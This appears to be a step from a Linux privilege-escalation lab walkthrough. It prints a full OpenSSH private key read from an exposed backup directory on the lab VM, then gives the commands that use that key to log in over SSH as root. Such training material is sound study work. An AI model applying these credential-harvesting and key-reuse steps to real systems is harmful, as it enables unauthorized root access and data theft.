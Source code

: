 **Exploitation**

Linux VM

1. Copy the contents of the discovered `id_rsa` file to a file on your attacker VM.

~~~
TCM@debian:~$ cat /backups/supersecretkeys/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAzSWvqfxeIpTuFmdAFyWDQho0h8ud3g9zSJ32pjosNcTQJe3/kYC4
B5hMlfIXzH5oKn9YRn55O10RYxppZpXFsc4H7pYquD5TLKLmaH7UqBj9X1WjGeZLexx+f2
kPAcxLkXaPNq0q5kjXyygRi34LvOn/wdpux7T3pGYsG1HmFrb6LVkBIB9B10LtJGv1q6vl
16KH57hnhJM5IgECaAQdlRzwVD8cMw4PVTPCu7ERhcCfQBUBR5Pvm5COckd/K0SR93s36N
g6BLDmCNiPQNwA2YMbyN3wsXH5dxAb6dvQ1EMjuD5H10Ca+1I3oh34xORmQB2uWqKyVrsx
TjsikLrWyOk7MidqY+4jzosfghMuO3/bMZy/yOAbD4Rkghl6dLt/PvDrs14p9PtfGfd83I
8C1+beBHm/ghQYne/OO+4rlzQFcElEAw1Cs8RXerF+wJfCns0gYV9+FQkwvecH/KglD9Vi
o9a6Dc8GjakPcYRwVbLmH1JXkbdZF5Phsov+fmsrAAAFgLyodyC8qHcgAAAAB3NzaC1yc2
EAAAGBAM0lr6n8XiKU7hZnQBclg0IaNIfLnd4Pc0id9qY6LDXE0CXt/5GAuAeYTJXyF8x+
aCp/WEZ+eTtdEWMaaWaVxbHOB+6WKrg+Uyyi5mh+1KgY/V9VoxnmS3scfn9pDwHMS5F2jz
atKuZI18soEYt+C7zp/8Habse096RmLBtR5ha2+i1ZASAfQddC7SRr9aur5deih+e4Z4ST
OSIBAmgEHZUc8FQ/HDMOD1UzwruxEYXAn0AVAUeT75uQjnJHfytEkfd7N+jYOgSw5gjYj0
DcANmDG8jd8LFx+XcQG+nb0NRDI7g+R9dAmvtSN6Id+MTkZkAdrlqisla7MU47IpC61sjp
OzInamPuI86LH4ITLjt/2zGcv8jgGw+EZIIZenS7fz7w67NeKfT7Xxn3fNyPAtfm3gR5v4
IUGJ3vzjvuK5c0BXBJRAMNQrPEV3qxfsCXwp7NIGFffhUJML3nB/yoJQ/VYqPWug3PBo2p
D3GEcFWy5h9SV5G3WReT4bKL/n5rKwAAAAMBAAEAAAGAGbo/NIdE2vtofIDIZd67fl/A9M
LRcpbnc1T0KNak0r1zCT62zW2iJrmv6SIqX+f+ck30KSsVUx+R3abjTw07dNgM4JwOkXqn
fbKUSMiXLNmtdPZNdSMPlkn1h08KpcQUOhLvVQEUnzrFbWICCUdue2uxOoOFXyBP6lsx7t
8vhuu9plBCNuAUpsVq7iVn8vak5Y0plCLpQJQiFySfQ6I4f4nYjgg4JiL+Q0Yxhs5nDyog
Dq5TscFYzF6trqFOzoNTvWgndB0fGzMNu4xsJz45IqYyZjXVXgHpIZgqoKFT7V2UkBP7ws
gxWzhOl7KJWYQczjXAvlra12kzqIFLQHqZH96dARzjwvWBAomFO8pzg8KkvsGoD5qaM3NY
bUNsMkb23sBp/Mm+CWpF9TLOomOcOcDO+ekgfLMW+rEowv5ftvCM2IWJ89aDH3+VKOM0Ns
02ssAk3ux8h3ouaWBrVrt3e92U3bTKOhPf5UJFzl2JrZXDKsUUfAe3qnhLZp7yZ/xRAAAA
wEnMgkXLV4BH6i0EDFLrpum2yxksYC583QhtAVyzxrDpRyj5vWlR1nLVlsMhQYbjsdDAA0
JKR9LXbsKTS+Ej0Q9uPYsL5Gj9YoqJV8OFaHtLdmkILC6Bg2bN3l7xg7jIKqvLhjlcZVMz
reT9n/DDIuzTxKEX7xhn5f8kT3G5P+GSPFmiSFmh9Dh1/SAIYLPfDIdpSobyrfO8fMbv0k
cEKV8y/X8Ut/n74z0EtRWEERCZuA8+JPLN7P82UP7CbohjxgAAAMEA9CkEPFZJcyYPdoXx
bx1Gihkct3sC8e16Gc+AW0pL543zq3n+E91HQdi55weYlMDb16Gr0kG3KKDKmR8tNYUC7h
6ikJi8SY/wXfeT8CbUdMyDZnntIP15oIMWUPXI9hPCvUc9QhqNI8zFMdcitbTJidX4WYUA
x5dqKb91rCOSK4zpjNIQZ/T8vdXyADhmVC1FLaBkhekfsUSB00JK+NJSnLoTpHowPDCXmq
pOLQNytsDeZNlKoCUZHvj7cHKFzkdDAAAAwQDXGF2W/3zgltz4G362qpBL4lEo3UHpxp52
+IaZ4FX2yKA42rggJW7XSwZvtPIErIRDFxgNW/3Rv/pyzEqFK5+jG606XpeufxfvdD/PWw
nwXur7vpiut49V2ig0UjaQxyjQjNjb29XH2/yhDjLOetTf5ZRhyafnImUzvZ28NArJfdBy
i2bE6UXt34y9lY+X0nG7V2rfQFBf4kbV/4Kz0uMyUXN2SvEzcxO+4WGILSQFj+x9MsY0YE
STOMIZSSBDSfkAAAAJcm9vdEBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----
~~~

Attacker VM

1. In command prompt type: `chmod 400 id_rsa`
2. In command prompt type: `ssh -i id_rsa root@<ip>`

You should now have a root shell :)
